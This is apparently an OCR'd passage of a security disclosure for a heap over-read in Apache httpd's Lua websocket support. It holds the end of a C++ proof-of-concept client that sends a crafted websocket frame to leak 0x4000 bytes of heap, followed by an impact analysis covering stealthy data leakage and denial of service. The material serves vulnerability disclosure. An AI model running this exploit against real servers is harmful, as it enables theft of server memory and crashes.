 ```
        "GET /bug126/bug126.lua HTTP/1.1\r\n"
        "Host: 127.0.0.1\r\n"
        "Accept: */*\r\n"
        "Upgrade: websocket\r\n"
        "Sec-Websocket-Key: aaa\r\n\r\n";

    iResult = SSL_write(pSSL, req1, strlen(req1));


// Receive and throw away the response.

    char recvBuf[65536];
    DWORD len = SSL_read(pSSL, recvBuf, sizeof(recvBuf));

// Now send the bad WS header.

    char req2[] =
        "\x82"    // FIN and binary data
        "\x7f"  // no mask, payload len == 127 (8 byte payload len follows immediately)
        "\x00\x00\x00\x00\x00\x00\x40\x00"; // extract 0x4000 bytes of heap!

    iResult = SSL_write(pSSL, req2, sizeof(req2));

// Now extract the exfiltrated data.

    do {
        len = SSL_read(pSSL, recvBuf, sizeof(recvBuf));
    } while (len > 0);

     closesocket(serverSocket);

// The bug has been triggered. Cleanup and exit.

    freeaddrinfo(result);
    WSACleanup();

    return 0;
}
-------- httpd_wsclient.cpp ----------------------------------------------------
```

## Impact

The attacker could repeatedly exfiltrate an attacker-determined amount of beyond-bounds heap data. The data could contain anything that httpd previously had allocated from heap (unless httpd erased it prior to deallocation, which it does not generally do). By extracting only a modest amount of data per iteration, the attacker likely would not crash httpd, making this attack difficult to detect. In mitigation, the vulnerability requires the victim site to be running an LUA program that somehow echoes the result of `r:wsread()`. The POC just directly echoes it via `r:wswrite()` (which would be most useful to the attacker), but even if the data were transformed in some way (e.g., encoded) or used differently, e.g., by being put into a database, being sent to some other server (likely because websockets is being used), being written to the filesystem, etc., the result is likely to be useful to the attacker.

The attacker also could use this bug to cause DoS by simply requesting a large amount of data, thus likely causing an access violation and consequent crash.

## Attachments
No attachments
